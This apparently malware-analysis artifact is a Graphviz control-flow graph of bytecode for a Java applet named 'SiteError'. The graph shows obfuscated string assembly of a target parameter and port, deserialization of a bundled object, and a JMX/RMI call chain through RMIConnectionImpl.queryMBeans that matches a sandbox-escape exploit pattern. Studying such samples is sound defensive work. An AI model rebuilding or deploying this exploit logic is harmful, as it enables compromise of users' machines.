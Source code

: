 digraph "" {
    "r0 := @this: SiteError"
    "load.r r0"
    "r0 := @this: SiteError"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"UeHlurk\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"UeHlurk\"";
    "push 4"
    "push \"UeHlurk\""->"push 4";
    "push 6"
    "push 4"->"push 6";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3Pk44ljb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3Pk44ljb\"";
    "push 5"
    "push \"3Pk44ljb\""->"push 5";
    "push 5"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <SiteError: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <SiteError: java.lang.String getParameter(java.lang.String)>";
    "staticput <SiteError: java.lang.String host>"
    "virtualinvoke <SiteError: java.lang.String getParameter(java.lang.String)>"->"staticput <SiteError: java.lang.String host>";
    "push \"67K80mFPsU\""
    "staticput <SiteError: java.lang.String host>"->"push \"67K80mFPsU\"";
    "push 3"
    "push \"67K80mFPsU\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "staticput <SiteError: java.lang.String s_port>"
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"staticput <SiteError: java.lang.String s_port>";
    "staticget <SiteError: java.lang.String host>"
    "staticput <SiteError: java.lang.String s_port>"->"staticget <SiteError: java.lang.String host>";
    "ifnonnull load.r r0"
    "staticget <SiteError: java.lang.String host>"->"ifnonnull load.r r0";
    "ifnonnull load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"tZa127P7\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"tZa127P7\"";
    "push \"tZa127P7\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"g1d85.0.W1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"g1d85.0.W1\"";
    "push \"g1d85.0.W1\""->"push 5";
    "push 8"
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"30.bbH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"30.bbH\"";
    "push 1"
    "push \"30.bbH\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nZ1Q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nZ1Q\"";
    "push 2"
    "push \"nZ1Q\""->"push 2";
    "push 2"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <SiteError: java.lang.String host>";
    "staticput <SiteError: java.lang.String host>"->"load.r r0";
    "virtualinvoke <SiteError: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <SiteError: java.net.URL getDocumentBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <SiteError: java.net.URL getDocumentBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "staticput <SiteError: java.lang.String dbase>"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"staticput <SiteError: java.lang.String dbase>";
    "staticput <SiteError: java.lang.String dbase>"->"load.r r0";
    "virtualinvoke <SiteError: java.net.URL getCodeBase()>"
    "load.r r0"->"virtualinvoke <SiteError: java.net.URL getCodeBase()>";
    "virtualinvoke <SiteError: java.net.URL getCodeBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "staticput <SiteError: java.lang.String cbase>"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"staticput <SiteError: java.lang.String cbase>";
    "push null"
    "staticput <SiteError: java.lang.String cbase>"->"push null";
    "store.r r39"
    "push null"->"store.r r39";
    "new java.io.ObjectInputStream"
    "store.r r39"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "store.r r0"
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r r0";
    "goto return"
    "store.r r0"->"goto return";
    "return"
    "goto return"->"return";
    "push null"->"store.r r0";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r r0";
    "new CustomMBeanServer"
    "load.r r0"->"new CustomMBeanServer";
    "new CustomMBeanServer"->"dup1.r";
    "specialinvoke <CustomMBeanServer: void <init>()>"
    "dup1.r"->"specialinvoke <CustomMBeanServer: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <CustomMBeanServer: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"QTdmyMJ\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"QTdmyMJ\"";
    "push \"QTdmyMJ\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Hrmg6Dd7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Hrmg6Dd7\"";
    "push \"Hrmg6Dd7\""->"push 1";
    "push 1"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QJDic2zra\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QJDic2zra\"";
    "push \"QJDic2zra\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EQ2MimpEaV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EQ2MimpEaV\"";
    "push \"EQ2MimpEaV\""->"push 4";
    "push 7"
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uWLklzr8a\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uWLklzr8a\"";
    "push \"uWLklzr8a\""->"push 4";
    "push 4"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "load.r r39"
    "push null"->"load.r r39";
    "load.r r39"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticget <SiteError: java.lang.String serfn>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticget <SiteError: java.lang.String serfn>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "staticget <SiteError: java.lang.String serfn>"->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r r39";
    "store.r r39"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
